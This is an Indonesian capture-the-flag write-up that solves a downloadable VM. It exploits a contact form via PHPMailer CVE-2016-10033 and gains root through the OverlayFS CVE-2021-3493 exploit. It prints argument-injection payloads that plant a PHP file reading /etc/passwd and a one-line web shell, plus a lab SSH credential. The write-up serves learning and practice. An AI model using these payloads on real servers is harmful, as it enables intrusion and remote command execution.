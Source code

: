 ## Overlayfs

### Deskripsi

Hack This Machine! [Download](https://mega.nz/file/uzwWwLrB#dAuDtw-VovuxnDj6r09r0zEQPGMPYsRQ71t-tZ2dXqk)

### Solusi

> Challange nya tentang VM, untuk bisa mendapatkan flag tentu saja harus menjalankan VM nya, menjalankan VM nya saja membutuhkan pengetahuan, Jadi asumsi saya **mount image** untuk mendapatkan flag bukanlah solusi.


Setelah di import ke Hyper-V setting network ke bridge dan tentukan IP menjadi `192.168.1.8`, kemudian dilakukan port scaning dan ditemukan port yang terbuka

```
$ nmap 192.168.1.8
Starting Nmap 7.80 ( https://nmap.org ) at 2022-01-07 13:08 WIB
Nmap scan report for 192.168.1.8 (192.168.1.8)
Host is up (0.79s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
Nmap done: 1 IP address (1 host up) scanned in 1.15 seconds
```

terbukan port `80` dan `22`, pada port `80` berjalan service http, jika dibuka pada `http://192.168.1.8` hanya menampilkan halman default apache, kemudian dilakukan dirbuster dan ditemukan 1 file dengan nama `index.php` dan hanya menampilkan halaman kontak biasa

![img1](1.png)

jika dilihat-lihat form ini bertujuan untuk mengirimkan email, setelah googling ditemukan beberapa resource yang mengarah kepada **PHPMailer < 5.2.18 Remote Code Execution** dengan membaca sumber [https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html](https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html) didapatkan payload 

```
name = "contoh\" -oQ/tmp/ -X/var/www/html/tes.php  some"@email.com
body = <?php echo '<pre>', print_r(system('cat /etc/passwd')), '</pre>'; ?>
```

dengan hasil

![img2](2.png)

dengan mengganti payload menjadi mini shell, bisa melakukan explorasi sistem

```
name = "contoh\" -oQ/tmp/ -X/var/www/html/tes2.php  some"@email.com
body = <?php echo '<pre>', print_r(system($_GET['x'])), '</pre>'; ?>
```

![img3](3.png)

setelah mencari2 terdapat sebuah file dengan nama `readme.md` pada folder `/var/www/` dengan isi

```
Please login using this credential, and please keep silent
miyabi:QNSGd4!bNL9mH
```

setelah login dengan ssh, tetap tidak bisa melakukan banyak hal karena privilege yang terbatas, tujuan akhirnya adalah bagaimana mendapatkan root access, disini informasi yang didapat yaitu kernel yang digunakan adalah 

```
Linux localhost 5.0.0-13-generic #14-Ubuntu SMP Mon Apr 15 14:59:14 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

diamana terkena bug **Ubuntu OverlayFS Local Privesc (CVE-2021-3493)** menurut [https://ubuntu.com/security/CVE-2021-3493](https://ubuntu.com/security/CVE-2021-3493), jadi tinggal nyari exploit yang bisa digunakan, saya menggunakan [https://github.com/briskets/CVE-2021-3493](https://github.com/briskets/CVE-2021-3493)

![img4](4.png)